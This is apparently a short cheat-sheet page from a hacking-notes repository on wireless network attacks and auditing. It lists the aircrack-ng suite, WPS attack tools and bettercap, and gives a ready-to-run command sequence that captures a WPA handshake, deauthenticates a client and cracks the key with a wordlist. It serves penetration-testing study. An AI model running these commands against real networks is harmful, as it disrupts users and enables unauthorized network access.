 # 06 - Tools / Systems / Programs (Hacking Wireless Networks)

**Purpose:** Attacks and auditing of wireless networks (Wi‑Fi).

**Tools mapped from your list:**
- `aircrack-ng` — capture and crack WPA/WPA2 handshakes and WEP keys.  
  Workflow examples: `airmon-ng` → `airodump-ng` → `aireplay-ng` → `aircrack-ng`

**Added recommended wireless tools:**
- `airmon-ng`, `airodump-ng`, `aireplay-ng` (aircrack-ng suite)  
- `reaver`, `wash` (WPS attacks)  
- `Kismet` — wireless discovery/sniffing
- `bettercap` — active network attacks and Wi-Fi MITM (in scope)

**Quick example (handshake capture):**
```bash
# put interface into monitor mode
airmon-ng start wlan0
# capture nearby networks and clients
airodump-ng wlan0mon --write capture
# deauth a client to capture handshake (use only in lab/scoped tests)
aireplay-ng --deauth 5 -a <BSSID> wlan0mon
# crack the handshake with a wordlist
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap
```